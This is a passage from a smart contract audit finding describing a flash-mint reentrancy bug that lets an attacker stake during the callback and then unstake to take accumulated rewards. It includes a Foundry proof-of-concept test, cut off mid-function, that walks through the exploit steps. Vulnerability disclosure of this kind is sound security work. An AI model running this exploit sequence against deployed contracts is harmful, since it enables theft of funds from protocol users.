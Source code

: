 ```solidity
    }
```

However, since `stake` is called within the `flashMint` callback, `_shortCircuitRewards` is set to 1, preventing fees from being swapped and rewards from being deposited into `POOL_REWARDS`.

After the attacker `stake` within the `flashMint` callback and exits the `flashMint` process, they can immediately call `unstake` to trigger `_processFeesIfApplicable` and steal rewards for an immediate profit.

PoC :

Add the following test to `IndexUtils.t.sol` :

```solidity
    function test_ReentrancyFlashMint() public {
        // Get a pod to test with
        address podToDup = IStakingPoolToken(0x4D57ad8FB14311e1Fc4b3fcaC62129506FF373b1).indexFund(); // spPDAI
        address newPod = _dupPodAndSeedLp(podToDup, address(0), 0, 0);
        IDecentralizedIndex indexFund = IDecentralizedIndex(newPod);

        // Setup test amounts
        uint256 podTokensToAdd = 1e18;
        uint256 pairedTokensToAdd = 1e18;
        uint256 slippage = 1000; // 100% slippage for test

        // Deal tokens to this contract
        deal(peas, address(this), podTokensToAdd + 1000);
        // attacker balance before
        uint256 peasBefore = IERC20(peas).balanceOf(address(this));
        IERC20(peas).approve(address(indexFund), podTokensToAdd + 1000);
        uint256 podBef = indexFund.balanceOf(address(this));
        indexFund.bond(peas, podTokensToAdd + 1000, 0);
        uint256 pTknToLp = indexFund.balanceOf(address(this)) - podBef - 10;
        deal(indexFund.PAIRED_LP_TOKEN(), address(this), pairedTokensToAdd);

        uint256 initialPairedBalance = IERC20(indexFund.PAIRED_LP_TOKEN()).balanceOf(address(this));

        // Approve tokens
        // IERC20(address(indexFund)).approve(address(indexFund), pTknToLp);
        IERC20(indexFund.PAIRED_LP_TOKEN()).approve(address(indexFund), pairedTokensToAdd);

        uint256 lpAmount = indexFund.addLiquidityV2(pTknToLp,pairedTokensToAdd,1000,block.timestamp);


        // Get initial staked LP balance
        address stakingPool = indexFund.lpStakingPool();

        // Deal tokens to the indexFund to simulate accumulated reward fees
        deal(address(indexFund), address(indexFund), 100e18);

        // function flashMint(address _recipient, uint256 _amount, bytes calldata _data) external override lock
        bytes memory data = abi.encode(indexFund, stakingPool, lpAmount);
        indexFund.flashMint(address(this), 0, data);

        IStakingPoolToken(stakingPool).unstake(lpAmount);

        address _podV2Pool = IStakingPoolToken(stakingPool).stakingToken();
        IERC20(_podV2Pool).approve(address(indexFund), lpAmount);
        indexFund.removeLiquidityV2(lpAmount,0,0,block.timestamp);
        address[] memory _tokens = new address[](1);
```